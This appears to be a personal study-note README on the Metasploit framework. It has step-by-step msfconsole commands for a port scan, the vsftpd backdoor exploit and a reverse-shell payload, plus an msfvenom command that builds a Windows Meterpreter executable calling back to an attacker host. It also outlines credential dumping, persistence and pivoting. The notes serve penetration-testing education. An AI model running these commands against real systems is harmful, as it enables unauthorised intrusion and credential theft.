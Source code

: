 

# 📋 **Note:**

The purpose of these notes is to dive deeper into this tool and leverage its full potential for corporate protection. These notes are not intended to be a complete explanation of the course; they are points I consider important and might need to revisit. For comprehensive information, please refer to the official page where the full course is available. Of course, if you have any questions or need assistance, feel free to send me a message, and I'll be happy to help.

---

# **🛡️ What is Metasploit?**

Metasploit is a powerful **open-source penetration testing framework** used by cybersecurity professionals to find, exploit, and validate vulnerabilities.

## **🎯 Key Purposes of Metasploit**

Metasploit serves multiple crucial purposes in the cybersecurity landscape:

* **Identify vulnerabilities**: Discover weaknesses in systems and applications.
* **Exploit security flaws**: Take advantage of identified vulnerabilities.
* **Test security controls**: Evaluate the effectiveness of defensive measures.
* **Create custom payloads**: Develop specialized code for post-exploitation.
* **Automate exploitation and reporting**: Streamline penetration testing processes.
* **Train security teams**: Use realistic simulations to enhance defensive skills.

---

## **🧱 Core Components of Metasploit**

Metasploit is built upon various module types, each serving a specific function in the exploitation process:

### **📦 Modules**

| Module Type      | Purpose                                                                                |
| :--------------- | :------------------------------------------------------------------------------------- |
| **Exploit** | Code used to take advantage of a vulnerability                                         |
| **Payload** | Code executed on the target after exploiting it (e.g., reverse shell)                  |
| **Auxiliary** | Scanners, fuzzers, DoS tools (non-exploit functionalities)                           |
| **Encoder** | Obfuscates payloads to evade antivirus                                                 |
| **Post** | Scripts for post-exploitation activities (e.g., privilege escalation, data collection) |
| **Nops (No-Operation)** | Filler code to help align payloads properly in memory                                  |

### **🚀 Payload Types**

Payloads define what happens *after* a system is successfully exploited.

* `reverse_shell` ↩️: The target connects back to the attacker, establishing an outbound connection.
* `bind_shell` 🔗: The attacker connects to a listener opened on the target machine.
* `meterpreter` 👻: An advanced, powerful payload that runs in memory and offers extensive control over the compromised system (file system access, webcam control, keystroke logging, etc.).

<details>
  <summary><h3>👻 **Meterpreter Features**</h3></summary>

Meterpreter is a highly versatile payload offering a wide range of capabilities for post-exploitation:

* **File upload/download**: Transfer files to and from the target.
* **Webcam access**: Capture images or video from the target's webcam.
* **Screenshot capture**: Take screenshots of the target's desktop.
* **Command execution**: Run arbitrary commands on the compromised system.
* **Keystroke logging**: Record user keystrokes.
* **Process migration**: Move the Meterpreter session to another process to evade detection.
* **Memory-resident operation**: Runs entirely in memory, making it harder for antivirus software to detect.
</details>

---

<details>
  <summary><h2>🛠️ **How Metasploit Works – Step by Step**</h2></summary>

The typical workflow in Metasploit involves several stages:

### **1. 🔍 Reconnaissance**

Use auxiliary modules to scan for open ports, services, and vulnerabilities on target systems.

```bash
msfconsole                 # Start the Metasploit console
use auxiliary/scanner/portscan/tcp # Select a TCP port scanner module
set RHOSTS 192.168.1.10    # Set the target IP address(es)
set PORTS 21-100           # Set the ports to scan
run                        # Execute the scan
````

### **2. 🎯 Select and Configure Exploit**

Once a vulnerability is identified, find a known exploit module for that specific service or flaw.

```bash
search vsftpd              # Search for exploits related to 'vsftpd'
use exploit/unix/ftp/vsftpd_234_backdoor # Select the specific exploit module
set RHOST 192.168.1.10     # Set the target IP address for the exploit
```

### **3. 📦 Choose a Payload**

Select the payload that will be executed on the target system after successful exploitation.

```bash
set PAYLOAD linux/x86/shell_reverse_tcp # Set the payload (e.g., a reverse shell)
set LHOST 192.168.1.5      # Set the local host (your attacking machine's IP)
set LPORT 4444             # Set the local port for the reverse connection
```

### **4. 🔥 Exploit the Target**

Execute the configured exploit and payload.

```bash
exploit                    # Launch the exploit
```

If successful, you'll gain access, typically receiving a command shell or a Meterpreter session.

\</details\>

-----

## **⌨️ Common Metasploit Commands**

Here's a quick reference for frequently used commands within the Metasploit console:

| Command          | Description                                      |
| :--------------- | :----------------------------------------------- |
| `search`         | Search for exploits, payloads, auxiliary modules, etc. |
| `use`            | Select a specific module to work with            |
| `set`            | Set variables (options) for the selected module like `RHOST`, `LHOST`, `PAYLOAD` |
| `run` or `exploit` | Launch the selected module or exploit          |
| `sessions`       | List all active Meterpreter or shell sessions    |
| `background`     | Send the current session to the background to continue other tasks |
| `shell`          | Drop into a command shell from a Meterpreter session |
| `help`           | Show available commands and their usage          |

-----

## **🕵️ Post-Exploitation Activities**

Once you've gained initial access to a system, the post-exploitation phase begins, aiming to deepen control and extract valuable information:

  * **Enumerate**: Gather information about users, passwords, registry keys, services, and network configurations.
  * **Dump credentials**: Extract hashed passwords or cleartext credentials with tools like `hashdump`.
  * **Escalate privileges**: Gain higher-level access (e.g., administrator or root) using local exploits.
  * **Set persistence**: Establish mechanisms (e.g., auto-start backdoors, scheduled tasks) to maintain access even after reboots.
  * **Pivot**: Use the compromised system as a stepping stone to access other systems within the network.

-----

## **💙 Metasploit for Blue Teams and Defense**

Metasploit is not exclusively an offensive tool; it can be invaluable for defenders (Blue Teams) as well:

  * **Simulate real-world attacks**: Conduct realistic simulations for security awareness training and incident response drills.
  * **Test IDS/IPS, firewall, or EDR response**: Validate if security controls can detect and prevent Metasploit attacks.
  * **Validate patching effectiveness**: Verify that patches and security configurations have correctly mitigated vulnerabilities.
  * **Run vulnerability validation**: Use exploits to confirm the existence and exploitability of vulnerabilities for compliance testing and risk assessment.

-----

## **🔗 Related Tools**

Beyond Metasploit, other powerful tools complement penetration testing and cybersecurity operations. (Specific tools would be listed here if provided in the original content.)

-----

## **💡 Example: Creating a Payload with `msfvenom`**

`msfvenom` is a standalone utility within Metasploit used to generate payloads.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f exe > payload.exe
```

*This command generates a Windows executable (`payload.exe`) that, when run on the target, will create a reverse Meterpreter shell back to your attacking machine (LHOST) on port 4444 (LPORT).*

Then, use Metasploit to catch the connection:

```bash
use exploit/multi/handler            # Use the generic handler to catch incoming connections
set PAYLOAD windows/meterpreter/reverse_tcp # Set the payload to match the one generated by msfvenom
set LHOST 192.168.1.5                # Set the local host (your attacking machine's IP)
set LPORT 4444                       # Set the local port to listen on
run                                  # Start the listener, waiting for the target to connect
```

```
```
